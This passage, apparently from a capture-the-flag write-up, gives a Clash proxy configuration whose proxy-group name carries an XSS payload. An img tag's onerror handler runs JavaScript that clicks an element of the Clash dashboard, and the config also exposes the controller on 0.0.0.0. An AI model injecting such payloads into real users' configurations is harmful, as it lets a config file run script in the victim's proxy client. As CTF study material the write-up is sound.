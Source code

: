 导入以下脚本，可以在打开Proxies时自动切换到General选项卡：

```yaml
port: 7890
allow-lan: true
mode: Rule
log-level: info
external-controller: 0.0.0.0:9090
proxies:
  - name: flag
    type: socks5
    server: 127.0.0.1
    port: 1926
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=document.getElementById("main-proxy-view").children[0].children[0].children[0].click()>
    type: select
    proxies:
    - flag

rules:
  - "DOMAIN-SUFFIX,pku.edu.cn,flag"
  - "GEOIP,CN,DIRECT"
  - "MATCH,DIRECT"
```

![image-20231021165929739](img/clash2.png)
